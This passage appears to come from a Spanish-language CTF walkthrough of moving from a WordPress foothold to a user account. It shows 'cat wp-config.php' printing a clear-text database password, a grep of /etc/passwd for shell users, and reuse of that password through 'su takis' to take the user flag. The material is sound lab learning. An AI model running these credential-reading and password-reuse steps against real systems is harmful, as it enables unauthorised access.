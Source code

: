 ![[Captura de pantalla 2023-06-22 144445.png]]

```
hostname -I
whoami
```

![[Captura de pantalla 2023-06-22 144534.png]]

---
# Escalamiento a usuario.

En el archivo `wp-config.php` de WordPress, se encuentran las configuraciones principales del sitio, incluyendo la información de la base de datos. En relación a las contraseñas, el archivo `wp-config.php` contiene la contraseña de la base de datos en formato de texto claro.
La contraseña en texto claro almacenada en el archivo `wp-config.php` es un riesgo de seguridad significativo. Si un atacante obtiene acceso no autorizado al servidor o al archivo, podría leer directamente la contraseña y utilizarla para acceder a la base de datos de WordPress.
```
cd ..
cat wp-config.php
```

![[Captura de pantalla 2023-06-22 144840.png]]
==password:R3&]vzhHmMn9,:-5

==Vamos a intentar reutilizar la contraseña con el unico usuario resistrado.

```
grep "sh$" /etc/passwd/

- `grep`: Es una herramienta de línea de comandos utilizada para buscar patrones en archivos o texto.

- `"sh$"`: Es el patrón que se está buscando. En este caso, "$" se utiliza para indicar el final de la línea y "sh" es el texto que se busca.

- `/etc/passwd`: Es la ubicación del archivo en el que se realizará la búsqueda. El archivo `/etc/passwd` es un archivo de sistema en sistemas operativos basados en UNIX que almacena información sobre las cuentas de usuario
- 
su takis
```

![[Captura de pantalla 2023-06-22 145257.png]]
==takis::R3&]vzhHmMn9,:-5

```
whoami
pwd
cat user.txt
```
![[Captura de pantalla 2023-06-22 145443.png]]
==Flag user pwned.

---